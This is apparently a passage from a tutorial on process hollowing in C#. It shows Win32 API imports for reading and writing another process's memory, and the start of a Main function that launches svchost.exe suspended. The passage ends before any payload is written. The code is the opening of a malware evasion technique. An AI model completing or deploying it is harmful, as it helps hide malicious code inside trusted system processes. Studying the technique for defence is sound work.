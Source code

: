 #### Win32 API Functions Imports

```csharp
        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);
        // Imports the Sleep function from kernel32.dll to pause the thread for a specified amount of time.

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref StartupInfo lpStartupInfo, out ProcessInfo lpProcessInformation);
        // Imports the CreateProcess function for creating a new process and its primary thread.

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref ProcessBasicInfo procInformation, uint ProcInfoLen, ref uint retlen);
        // Imports ZwQueryInformationProcess function from ntdll.dll to retrieve information about the process.

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfbytesRW);
        // Imports the ReadProcessMemory function to read memory in a specified process.

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        // Imports the WriteProcessMemory function to write memory to a specified process.

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);
        // Imports the ResumeThread function to resume a thread that was created in a suspended state.
```

#### Main Function

```csharp
        public static void Main(string[] args)
        {
            // The entry point of the program where the hollowing process starts.
```

#### Process Creation in Suspended State

```csharp
            // Start 'svchost.exe' in a suspended state
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);
            // Initializes structures and calls CreateProcess to launch svchost.exe in suspended mode.
```
